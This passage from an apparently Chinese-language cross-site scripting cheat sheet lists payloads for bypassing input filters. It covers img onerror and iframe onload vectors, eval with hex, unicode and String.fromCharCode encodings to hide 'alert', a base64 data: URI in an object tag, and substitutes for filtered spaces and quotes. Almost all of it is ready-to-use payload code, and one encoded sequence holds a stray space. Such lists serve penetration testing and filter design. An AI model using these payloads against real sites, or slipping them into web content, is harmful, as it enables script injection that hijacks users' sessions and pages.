 ```html
<img src=""onerror="alert('xss')">
<img/src/onerror=alert(1)>
<img/src='a'onerror=[1].find(alert)>
```

4.<iframe>标签

```html
<iframe onload=alert(1)>
```

##### alert被过滤

1.编码方式

eval+16进制编码

```html
<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>
```

2.编码格式

unicode编码

```html
<img src="1" onerror=eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0075\u006e\u0069\u0063\u006f\u0064\u0065\u0027\u0029")></img>
```

String.fromCharCode

```html
<img src="1" onerror=eval(String.fromCharCode(97,108,101,114,116,40,39,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,10 1,39,41))></img>
```

3.data协议

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnZGF0YSBwcm90b2NvbCcpPC9zY3JpcHQ+"></object>
```

##### 空格被过滤

用/**/或者/

```html
<img/src=""onerror="alert('xss1')">
```

##### 单引号被过滤

反引号替代

```html
<img/src=""onerror="alert(`xss2`)">
```



##### 其他标签方式绕过
